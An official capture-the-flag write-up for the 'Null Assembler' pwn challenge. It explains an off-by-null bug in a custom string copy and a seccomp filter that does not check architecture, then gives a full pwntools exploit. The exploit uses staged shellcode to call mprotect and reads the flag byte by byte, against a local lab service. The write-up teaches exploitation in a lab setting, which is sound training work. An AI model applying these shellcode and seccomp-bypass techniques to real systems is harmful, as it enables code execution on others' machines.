<img src="../../assets/banner.png" style="zoom: 80%;" align=center />

<img src="../../assets/htb.png" style="zoom: 80%;" align='left' /><font size="5">Null Assembler</font>

  15<sup>th</sup> 5 2025

  Prepared By: clubby789

  Challenge Author: s4muii

  Difficulty: <font color=green>Easy</font>

  Classification: Official






# Synopsis

Null Assembler is an Easy Pwn challenge. It is a smaller Assmebler written in c. The core bug is an off-by-one at the end of a string operation, letting you write a null byte just past the intended buffer. With careful input, you can smash that single byte out of bounds, corrupting adjacent data. This tiny mistake opens the door to memory corruption and, with the right moves, full code execution.

## Skills Required
    - Shellcoding
    - Seccomp bypass
## Skills Learned
    - Identifying and exploiting off-by-null bugs

# Solution

# Solution

## Finding the vulnerability
1. off-by-one error in `safe_strncpy` function.
```c
    char *safe_strncpy(char* dst, const char *restrict src,size_t dsize)
    {
        memcpy(dst, src, dsize);
        dst[strlen(dst) <= dsize ? strlen(dst): dsize] = '\0';
        return dst;
    }
```
In `strncpy` whenever you copy a string if the string is longer than n then it will copy up-to `n` bytes and not null-terminate the string. in here we tried to fix that by making our our safe copy of `strncpy` which always null-terminates the dst but in the case if the src is longer than `n` it will write the null byte out-of-bounds at `dst[dsize]`.

2. insufficient checks in the seccomp filter.
```bpf
    A = sys_number
    A >= 0x40000000 ? kill : next

    A == fstat ? ok : next
    ...
```
The seccomp filter doesn't check for the arch and that presents an opportunity for an attacker since in our modern x86-64 machines we can still execute x86 syscalls then we can use them as well. And since they all have different numbers than x86-64 syscalls than we have a bigger surface than we initially could have. 

## Exploitation
* Fill the first page of code with nop instructions til you get to the second page . this is done since overwriting the idx if it's `0x000000xx` will result in it being `0x0` and hence starting at the beginning of the shellcode which is not ideal and give us no benefits.
* Place the shellcode to open/read/write the flag in the data section of the jit.
* Make sure that at idx 0x100 we will jump to the middle of an instruction that will allow us to break out of the jit emitted code.
* Add in mprotect(data,0x1000,0o7) call in the first stage shellcode to make the data section executable.
* Create a new label with the maximum length and hence overwriting its idx's LSB with 0x0 to be `0x100` and jmp to it triggering the first stage shellcode to call mprotect and then jmp to the second stage shellcode which will open/read/write the flag.


and here's the full exploit
```py
from pwn import *
context.arch        = 'i386'
context.log_level   = 'CRITICAL'

REGS = {
    'eax': 'h0',
    'ebx': 'h1',
    'ecx': 'h2',
    'edx': 'h3',
}

def create_atom(inst):
    assert len(asm(inst)) <= 0x2
    return asm(inst) + b'\xeb'+p8(0x1) # a jump to skip the first byte of the next mov inst

def mov(reg,value):
    return f'mov {REGS[reg]},{value}\n'.encode()

def cmp(reg0,reg1):
    return f'cmp {REGS[reg0]},{REGS[reg1]}\n'.encode()

def ret():
    return b'ret\n'

def label(name):
    return name.encode()+b':\n'

def jmp(label):
    return f'jmp {label}\n'.encode()

def str(reg,idx):
    return f'str {REGS[reg]},{idx}\n'.encode()

def conn():
    p = remote('127.0.0.1', 1234)
    return p 

def get_one_byte(idx):
    p = conn()

    sc_first_stage = b''
    sc_first_stage += create_atom('push edi; push edi') # same opcode as push rdi
    sc_first_stage += create_atom('mov esi,ebx')        # esi = PAGE_SIZE
    sc_first_stage += create_atom('syscall')
    sc_first_stage += create_atom('pop edi ; pop edi')
    sc_first_stage += create_atom('jmp edi')

    with context.local(arch='amd64',bits=64):
        sc_second_stage = asm(f"""
    open:
        lea rbx, [rip+flag]
        mov ecx,0x0
            
        mov eax,0x5
        int 0x80
    
    read:
        mov edi,eax
        lea rsi,[rip+flag_bytes]
        mov rdx,0x100
                            
        mov eax,SYS_read
        syscall

    exit:
        xor edi,edi
        lea rsi,[rip+flag_bytes]
        mov dil,BYTE PTR[rsi+{idx}]

        mov eax,SYS_exit_group
        syscall
                
        flag:
            .string "./flag.txt"
                            
        flag_bytes:
    """).ljust(0x50,asm('nop'))

    # fill the first page with some instructions with a nop slide
    # function prologue     movs    cmps    
    # 15                +   41*5 +  17*2 =  254
    payload  = b''
    payload += mov('eax',0x0)*41
    payload += cmp('eax','ebx')*17 # just to fill up the gap

    # start of our sc_first_stage execution which will call mprotect on the data section
    for i in range(0, len(sc_first_stage), 4):   
        payload += mov('eax',u32(sc_first_stage[i:i+4]))

    # fill the data section with sc_second_stage that will have our shellcode to orw the flag
    for i in range(0, len(sc_second_stage), 4):
        payload += mov('eax',u32(sc_second_stage[i:i+4]))
        payload += str('eax',i)

    payload += mov('eax',0xa)   # SYS_mprotect
    payload += mov('ebx',0x1000)
    payload += mov('edx',0x7)

    payload += label('A'*0x20)  # label to overflow
    payload += jmp('A'*0x20)    # trigger the jump to our sc_first_stage
    payload += ret()            # return to finish the function and start jit execution

    p.sendline(payload)

    byte = int(p.recvall().strip().split()[-1],base=10)
    if byte == 0:
        return None
    return p8(byte)


idx     = 0
flag    = b''

with log.progress('Flag....',level=logging.CRITICAL) as l:
    while True:
        b = get_one_byte(idx)
        if b == None:
            l.success(flag.decode())
            break
        flag+= b
        l.status(flag.decode())
        idx+=1
```
